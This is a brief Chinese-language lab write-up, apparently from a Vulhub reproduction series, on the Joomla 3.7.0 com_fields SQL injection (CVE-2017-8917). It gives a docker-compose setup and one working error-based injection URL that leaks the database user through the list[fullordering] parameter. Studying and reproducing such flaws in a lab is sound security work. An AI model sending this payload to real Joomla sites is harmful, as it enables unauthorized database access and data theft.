 # Joomla 3.7.0 SQL注入漏洞 CVE-2017-8917 

## 漏洞描述

Joomla是一套世界第二流行的内容管理系统。它使用的是PHP语言加上MySQL数据库所开发的软件系统，可以在Linux、 Windows、MacOSX等各种不同的平台上执行，目前由开放源码组织Open Source Matters进行开发与支持。

Joomla 3.7版本后引入一个新的组件 “com_fields”，这一组件会引发易被利用的漏洞，并且不需要受害者网站上的高权限，这意味着任何人都可以通过对站点恶意访问利用这个漏洞。

## 环境搭建

Vulhub编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

- 数据库主机名：mysql:3306
- 用户：root
- 密码：root
- 数据库名：joomla

填入上述信息，正常安装即可。

## 漏洞复现

安装完成后，访问以下链接，即可看到报错信息：

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![image-20220224194438666](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202241944763.png)


